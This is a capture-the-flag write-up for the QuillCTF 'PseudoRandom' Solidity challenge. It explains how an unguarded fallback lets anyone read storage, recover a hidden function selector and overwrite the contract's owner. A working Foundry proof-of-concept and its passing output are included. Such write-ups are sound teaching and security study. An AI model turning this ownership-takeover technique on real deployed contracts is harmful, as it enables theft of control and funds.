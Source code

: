 # QuillCTF : PseudoRandom

## Objective of CTF

Become the Owner of the contract.

### Contract code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

contract PseudoRandom {
    error WrongSig();

    address public owner;

    constructor() {
        bytes32[3] memory input;
        input[0] = bytes32(uint256(1));
        input[1] = bytes32(uint256(2));

        bytes32 scalar;
        assembly {
            scalar := sub(mul(timestamp(), number()), chainid())
        }
        input[2] = scalar;

        assembly {
            let success := call(gas(), 0x07, 0x00, input, 0x60, 0x00, 0x40)
            if iszero(success) {
                revert(0x00, 0x00)
            }

            let slot := xor(mload(0x00), mload(0x20))

            sstore(add(chainid(), origin()), slot)

            let sig := shl(
                0xe0,
                or(
                    and(scalar, 0xff000000),
                    or(
                        and(shr(xor(origin(), caller()), slot), 0xff0000),
                        or(
                            and(
                                shr(
                                    mod(xor(chainid(), origin()), 0x0f),
                                    mload(0x20)
                                ),
                                0xff00
                            ),
                            and(shr(mod(number(), 0x0a), mload(0x20)), 0xff)
                        )
                    )
                )
            )
            sstore(slot, sig)
        }
    }

    fallback() external {
        if (msg.sig == 0x3bc5de30) {
            assembly {
                mstore(0x00, sload(calldataload(0x04)))
                return(0x00, 0x20)
            }
        } else {
            bytes4 sig;

            assembly {
                sig := sload(sload(add(chainid(), caller())))
            }

            if (msg.sig != sig) {
                revert WrongSig();
            }

            assembly {
                sstore(owner.slot, calldataload(0x24))
            }
        }
    }
}
```

It only has a fallback function, which checks for 2 function identifier, one is 0x3bc5de30 which is `getData()` another one is `sig` which is dynamic and it is set in the constructor

We can set our function identifier to 0x3bc5de30 to read the storage, passing the storage slot as the first 32 bytes after the function identifier in the calldata 

The storage slot that store `sig` is stored on the slot that is the sum of chain id and origin, and `sig` is stored on that storage slot

The chain used will be pseudo-randomly selected in the foundry test

Once we know the `sig`, we can just set the function identifier in the calldata as `sig` and set the second 32 bytes after the function identifier to our owner address, so it will change the data of the owner's slot to our address, and we will become the owner

## Proof of concept

### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/PseudoRandom.sol";

contract PseudoRandomTest is Test {
    string private BSC_RPC = "https://rpc.ankr.com/bsc"; // 56
    string private POLY_RPC = "https://rpc.ankr.com/polygon"; // 137
    string private FANTOM_RPC = "https://rpc.ankr.com/fantom"; // 250
    string private ARB_RPC = "https://rpc.ankr.com/arbitrum"; // 42161
    string private OPT_RPC = "https://rpc.ankr.com/optimism"; // 10
    string private GNOSIS_RPC = "https://rpc.ankr.com/gnosis"; // 100

    address private addr;

    function setUp() external {
        vm.createSelectFork(BSC_RPC);
    }

    function test() external {
        string memory rpc = new string(32);
        assembly {
            // network selection
            let _rpc := sload(
                add(mod(xor(number(), timestamp()), 0x06), BSC_RPC.slot)
            )
            mstore(rpc, shr(0x01, and(_rpc, 0xff)))
            mstore(add(rpc, 0x20), and(_rpc, not(0xff)))
        }

        addr = makeAddr(rpc);

        vm.createSelectFork(rpc);

        vm.startPrank(addr, addr);
        address instance = address(new PseudoRandom());

        // the solution 
        (, bytes memory slotBytes) = instance.call(abi.encodeWithSignature("getData()", uint256(uint160(addr)) + block.chainid));
        uint256 slot = abi.decode(slotBytes, (uint));
        console.log(slot);
        (, bytes memory sigBytes) = instance.call(abi.encodeWithSignature("getData()", slot));
        bytes4 sig = abi.decode(sigBytes, (bytes4));
        console.logBytes4(sig);
        instance.call(abi.encodeWithSelector(sig, bytes32(0), addr));
        console.log(PseudoRandom(instance).owner());
        
        assertEq(PseudoRandom(instance).owner(), addr);
    }
}
```

### Foundry test output

```
# forge test --match-path test/PseudoRandom.t.sol -vv
[⠰] Compiling...
No files changed, compilation skipped

Running 1 test for test/PseudoRandom.t.sol:PseudoRandomTest
[PASS] test() (gas: 191241)
Logs:
  4499126719395355399720051982138993480830469723364199535435825434022858553839
  0xa54d54a3
  0xf91b5dC05b4E3824E405Edc65B7733A7f898d74b

Test result: ok. 1 passed; 0 failed; finished in 2.98s
```